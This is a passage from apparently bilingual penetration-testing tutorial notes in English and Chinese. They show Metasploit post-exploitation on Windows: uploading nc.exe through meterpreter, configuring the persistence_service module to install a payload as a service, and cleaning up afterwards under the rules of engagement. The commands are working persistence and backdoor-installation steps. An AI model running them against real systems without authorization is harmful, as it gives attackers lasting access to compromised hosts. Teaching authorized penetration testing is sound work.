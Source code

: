 ```
meterpreter > upload /usr/share/windows-binaries/nc.exe
meterpreter > ls
meterpreter > rm nc.exe
meterpreter > ls
meterpreter > background
```

The next recommendation ties into the Metasploit Framework exploitation and post exploitation modules.

[Windows Persistent Service Installer](https://www.rapid7.com/db/modules/exploit/windows/local/persistence_service/)

Windows Persistent Service Installer

Windows 持久服务安装程序

This Module will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.

此模块将生成可执行文件并将其上传到远程主机，接下来将使其成为持久服务。它将创建一个新服务，该服务将在服务运行时启动有效负载。需要管理员或系统权限。

```
search persistence platform:windows
use exploit/windows/local/persistence_service
show options
set LPORT 4433
set SESSION 1
show info
exploit
```

Persistence is something that is very important, however it leaves a lot of artifacts on the target system. And as part of the rules of engagement, when you're done with the pentest, you need to get rid of all of this. You cannot have this running on the system that you've compromised because if a real attacker finds this running, then they could potentially exploit it and then you will be responsible for that company or for your client being exploited. So never leave anything that could be useful for a real attacker or adversary.

```
meterpreter > cd C:\\
meterpreter > cd Users
meterpreter > cd Administrator
meterpreter > cd AppData
meterpreter > cd Local
meterpreter > cd Temp
meterpreter > ls
meterpreter > exit
```

It's generated a Cleanup Meterpreter Resource Script file. A Resource Script is a script that is used of within the Metasploit Framework to automate a specific task that you want to perform with msfconsole. 

Open up a new tab.
